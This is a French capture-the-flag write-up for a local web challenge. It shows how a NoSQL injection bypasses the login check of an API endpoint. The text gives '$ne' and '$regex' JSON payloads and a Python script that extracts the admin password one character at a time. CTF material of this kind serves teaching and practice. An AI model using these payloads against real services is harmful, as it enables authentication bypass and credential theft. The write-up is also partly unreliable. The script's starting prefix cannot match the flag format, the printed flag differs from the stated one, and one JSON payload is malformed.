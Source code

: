 # Quotes-A-Day 1

> Web <br>
> Author: @Strix

# Challenge

We've built a brand new API to allow our users to get an inspirational quote on demand!
Our security team has yet to approve it for production, but I really think we did everything right

Checkout our documentation to get started! `URL DU CHALLENGE/docs`

FLAG: `FLAG{N0SQL_D0ESNT_M3AN_N0_SQLi}`

## Outils nécessaires

- docker-compose

## Exécution

```bash
docker-compose up --build --force-recreate --renew-anon-volumes
```

## Writeup

Le défi est une vulnérabilité assez standard de NoSQL que l'utilisateur doit exploiter. Le flag est le mot de
passe de l'utilisateur admin, qui peut être trouvé en abusant de l'entrée non validée dans les champs email et password
du endpoint /api_key.

Plusieurs payloads peuvent être utilisées, car l'application permet l'utilisation d'objets comme input aux champs email
et password puisque ces derniers ne sont pas validés.

Exemple:

```json
{
  "email": "admin@unite.com"
  "password": {
    "$ne": 1
  }
}
```

Qui nous retourne:

```json
{
  "API_KEY": "6125da25d002882618d55be9",
  "message": "Use API_KEY as the value to the api_key parameter in our other queries"
}
```

Il existe plusieurs [fonctions d'agrégation](https://docs.mongodb.com/manual/aggregation/), tels que "$where", "$regex",
etc. Une des fonctions que nous pouvons utiliser pour trouver le flag est `$regex`. `$regex` nous permet de matcher des
champs du document de la base de donnée avec l'expression donnée en input.

Exemple:

```json
{
  "email": "admin@unite.com",
  "password": {
    "$regex": "FLAG{(.*)}"
  }
}
```

Qui nous retourne la même réponse (200) mentionnée plus haut.

Maintenant, nous savons que le flag est du format FLAG{...}, nous savons aussi qu'une requête réussie nous retourne un
code de 200 et la clé API, donc nous pouvons écrire une fonction qui nous permet d'exécuter des requêtes pour
extraire les lettres entre les deux accolades :

```python
import requests

flag_letters = 'abcdefghijklmnopqrstuvxwyzABCDEFGHIJKLMNOPQRSTUVXWYZ0123456789_-{}'
index = 0
flag = "FLAG-{"
url = "http://localhost:3000/api_key"
headers = {'Content-type': 'application/json'}
while True:
    for letter in flag_letters:
        data = {"email": "admin@unite.com", "password": {"$regex": "{}(.*)".format(flag + letter)}}
        response = requests.post(url, json=data, headers=headers)
        index = index + 1
        if "API_KEY" in response.text:
            flag = flag + letter
            print(flag)
            if letter == "}":
                print("Total requests: " + str(index))
                exit(0)
```

Qui nous retourne donc quelque chose comme ça:

```bash
FLAG{N
FLAG{No
FLAG{No5
FLAG{No5Q
... 
FLAG{No5QL_D0ESNT_M3AN_N0_SQLi}
```